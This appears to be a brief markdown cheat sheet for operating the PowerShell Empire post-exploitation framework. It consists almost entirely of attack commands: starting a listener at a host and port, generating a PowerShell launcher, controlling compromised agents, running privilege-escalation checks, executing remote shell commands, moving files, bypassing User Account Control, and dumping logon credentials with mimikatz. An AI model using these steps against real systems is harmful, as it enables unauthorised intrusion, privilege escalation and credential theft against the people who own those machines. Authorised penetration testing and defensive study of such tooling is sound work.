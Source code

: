 # empire, powershell-empire

pure PowerShell post-exploitation agent

## start a listener

```
listeners
uselistener http
set Host http://<host>:<port>
execute
```

## create a launcher

```
listeners
launcher powershell http
```

## interact with an agent

```
agents
interact <agent name>
```

### run winPEAS (Powershell 4.0+)

```
usemodule privesc/winPEAS
run
```

### run shell commands

```
shell <command> <arguments>
```

### upload/download files

```
upload /path/to/local/file
download /path/to/remote/file
```

### bypass User Account Control

```
bypassuac http
```

### dump logon password

```
mimikatz
creds
```

### list modules

```
usemodule <tab><tab>
```

## [...](https://www.powershellempire.com/)
